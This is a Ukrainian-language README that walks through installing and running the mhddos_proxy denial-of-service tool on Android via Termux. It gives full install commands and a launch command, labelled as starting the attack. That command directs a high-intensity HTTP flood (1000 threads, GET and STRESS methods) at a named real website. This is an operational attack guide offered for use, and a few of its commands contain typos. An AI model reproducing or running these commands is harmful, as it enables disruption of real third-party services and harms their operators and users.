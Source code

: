 # MHDDOS ДЛЯ ![Android](https://img.shields.io/badge/-Android-090909?style=for-the-badge&logo=android&logoColor=47C5FB)
### УВАГА! TERMUX ВСТАНОВЛЕННИЙ У GOOGLE PLAY ДЛЯ ANDROID 11+ НЕ ПІДІЙТЕ (БІЛЬШЕ НЕ ПІДТРИМУЄТЬСЯ І БУДУТЬ ПОМИЛКИ)
- За наступним посиланням скачуємо і встановлюємо [Termux](https://archive.org/details/termux-app_v0.118.0github-debug_universal)
- Заходимо в Termux і водимо команди:
```termux
apt update && upgrade -y
pkg install python -y && pkg install rust -y && pkg install git -y
pip install --upgrade pip
cd ~
export CARD_BUILD_TABGET=aarch64-linux-android
termux-setup-storage
cd ~/storage/shared
rm -rf mhddos_proxy
git config --global --add safe.directory /storage/emulator/0
git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
cd mhddos_proxy
pip install -r termux_requirements.txt
```
- Запуск атаки:
Відркиваємо Termux:
Заходимо в папку mhddos_proxy
```termux
cd ~/storage/shared/mhddos_proxy
TERMUX=1 bash runner.sh python http://rutor.info/ -t 1000 --rpc 1000 --http-methods GET STRESS
```

  
